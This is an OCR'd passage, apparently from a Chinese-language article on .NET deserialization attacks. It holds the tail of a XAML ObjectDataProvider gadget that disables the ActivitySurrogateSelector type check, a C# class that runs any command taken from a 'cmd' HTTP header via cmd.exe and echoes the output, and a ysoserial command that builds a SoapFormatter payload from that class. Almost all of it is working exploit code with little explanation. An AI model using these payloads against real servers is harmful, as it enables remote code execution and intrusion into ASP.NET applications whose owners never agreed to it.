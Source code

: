 ```
        &lt;/ObjectDataProvider.MethodParameters&gt;
    &lt;/ObjectDataProvider&gt;
    &lt;ObjectDataProvider x:Key="set" ObjectInstance="{StaticResource field}" MethodName="SetValue"&gt;
        &lt;ObjectDataProvider.MethodParameters&gt;
            &lt;s:Object/&gt;
            &lt;s:Boolean&gt;true&lt;/s:Boolean&gt;
        &lt;/ObjectDataProvider.MethodParameters&gt;
    &lt;/ObjectDataProvider&gt;
    &lt;ObjectDataProvider x:Key="setMethod" ObjectInstance="{x:Static c:ConfigurationManager.AppSettings}" MethodName ="Set"&gt;
        &lt;ObjectDataProvider.MethodParameters&gt;
            &lt;s:String&gt;microsoft:WorkflowComponentModel:DisableActivitySurrogateSelectorTypeCheck&lt;/s:String&gt;
            &lt;s:String&gt;true&lt;/s:String&gt;
        &lt;/ObjectDataProvider.MethodParameters&gt;
    &lt;/ObjectDataProvider&gt;
&lt;/ResourceDictionary&gt;
```

##### 回显

写一个自定义的程序集，利用header中的cmd参数值执行命令，同时有回显

```
class E
{
    public E()
    {
        System.Web.HttpContext context = System.Web.HttpContext.Current;
        context.Server.ClearError();
        context.Response.Clear();
        try
        {
            System.Diagnostics.Process process = new System.Diagnostics.Process();
            process.StartInfo.FileName = "cmd.exe";
            string cmd = context.Request.Headers["cmd"];
            process.StartInfo.Arguments = "/c " + cmd;
            process.StartInfo.RedirectStandardOutput = true;
            process.StartInfo.RedirectStandardError = true;
            process.StartInfo.UseShellExecute = false;
            process.Start();
            string output = process.StandardOutput.ReadToEnd();
            context.Response.Write(output);
        } catch (System.Exception) {}
        context.Response.Flush();
        context.Response.End();
    }
}
```

```
ysoserial.exe -g ActivitySurrogateSelectorFromFile -f SoapFormatter -c "dlls\E.cs;System.Web.dll;System.dll"
```
